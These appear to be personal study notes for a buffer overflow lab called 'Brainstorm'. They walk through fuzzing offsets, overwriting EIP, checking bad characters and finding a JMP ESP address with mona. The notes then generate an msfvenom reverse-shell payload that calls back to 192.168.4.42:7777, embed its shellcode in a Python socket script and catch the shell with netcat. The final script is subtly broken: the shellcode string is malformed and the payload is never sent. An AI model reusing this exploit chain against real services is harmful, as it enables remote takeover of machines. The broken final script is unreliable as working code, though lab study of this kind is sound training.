

Need to come back and expand on this

https://github.com/milesrack/bufferoverflowprep?tab=readme-ov-file


- `ltrace` : library call tracer
- `strings` : can see string that are visible in a binary

# gdb


# Brainstorm walkthrough

Generate a reference pattern with a specified length to fuzz with.
`msf-pattern_create -l 50000`

Grab the number from the EIP register inside immunity debugger. In this case `31704330` and query for the offset number.
1. `msf-pattern_offset -l 5000 -q 31704330`
2. `[*] Exact match of offset 2012`
This means that the 2013 byte that we send will be into the return pointer "EIP"

Python script to automate sending data to the program. Can verify that the B's are showing up in the EIP register.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```


Need to check for "badchars". Once you send to Immunity debugger then right-click on the ESP and click follow in dump. Bottom left pane then check if there are any missing or blurred characters.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + badchars + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

In bottom command line of immunity debugger run `!mona modules`. This will pop up a windows to check for security measures. Can also run `!mona find -s "\xff\xe4" -m essfunc.dll` to check for a jump esp.


Search for the "JMP ESP". Click on it and hit *F2* to set a breakpoint so that when you run the script below on the app it will break at that point.

```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"\xdf\x14\x50\x62"
# "jump address written backwards to replace the B's"
payload = b""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

Generate payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.4.42 LPORT=7777 -b "\x00" -f c
```

Add payload to script
```python

import socket
import sys

username = b"blah"
# added padding after return
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
# add payload from venom
payload = b"\xdb\xce\xd9\x74\x24\xf4\x5a\xbd\x19\x15\xae\x4c\x29\xc9"
b"\xb1\x52\x31\x6a\x17\x83\xea\xfc\x03\x73\x06\x4c\xb9\x7f"
b"\xc0\x12\x42\x7f\x11\x73\xca\x9a\x20\xb3\xa8\xef\x13\x03"
b"\xba\xbd\x9f\xe8\xee\x55\x2b\x9c\x26\x5a\x9c\x2b\x11\x55"
b"\x1d\x07\x61\xf4\x9d\x5a\xb6\xd6\x9c\x94\xcb\x17\xd8\xc9"
b"\x26\x45\xb1\x86\x95\x79\xb6\xd3\x25\xf2\x84\xf2\x2d\xe7"
b"\x5d\xf4\x1c\xb6\xd6\xaf\xbe\x39\x3a\xc4\xf6\x21\x5f\xe1"
b"\x41\xda\xab\x9d\x53\x0a\xe2\x5e\xff\x73\xca\xac\x01\xb4"
b"\xed\x4e\x74\xcc\x0d\xf2\x8f\x0b\x6f\x28\x05\x8f\xd7\xbb"
b"\xbd\x6b\xe9\x68\x5b\xf8\xe5\xc5\x2f\xa6\xe9\xd8\xfc\xdd"
b"\x16\x50\x03\x31\x9f\x22\x20\x95\xfb\xf1\x49\x8c\xa1\x54"
b"\x75\xce\x09\x08\xd3\x85\xa4\x5d\x6e\xc4\xa0\x92\x43\xf6"
b"\x30\xbd\xd4\x85\x02\x62\x4f\x01\x2f\xeb\x49\xd6\x50\xc6"
b"\x2e\x48\xaf\xe9\x4e\x41\x74\xbd\x1e\xf9\x5d\xbe\xf4\xf9"
b"\x62\x6b\x5a\xa9\xcc\xc4\x1b\x19\xad\xb4\xf3\x73\x22\xea"
b"\xe4\x7c\xe8\x83\x8f\x87\x7b\x6c\xe7\x83\x51\x04\xfa\x8b"
b"\xbb\xb5\x73\x6d\xa9\x25\xd2\x26\x46\xdf\x7f\xbc\xf7\x20"
b"\xaa\xb9\x38\xaa\x59\x3e\xf6\x5b\x17\x2c\x6f\xac\x62\x0e"
b"\x26\xb3\x58\x26\xa4\x26\x07\xb6\xa3\x5a\x90\xe1\xe4\xad"
b"\xe9\x67\x19\x97\x43\x95\xe0\x41\xab\x1d\x3f\xb2\x32\x9c"
b"\xb2\x8e\x10\x8e\x0a\x0e\x1d\xfa\xc2\x59\xcb\x54\xa5\x33"
b"\xbd\x0e\x7f\xef\x17\xc6\x06\xc3\xa7\x90\x06\x0e\x5e\x7c"
b"\xb6\xe7\x27\x83\x77\x60\xa0\xfc\x65\x10\x4f\xd7\x2d\x20"
b"\x1a\x75\x07\xa9\xc3\xec\x15\xb4\xf3\xdb\x5a\xc1\x77\xe9"
b"\x22\x36\x67\x98\x27\x72\x2f\x71\x5a\xeb\xda\x75\xc9\x0c"
b"\xcf""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

run netcat listener and then run the shell should give the connection.
`nc -lnvp 7777`

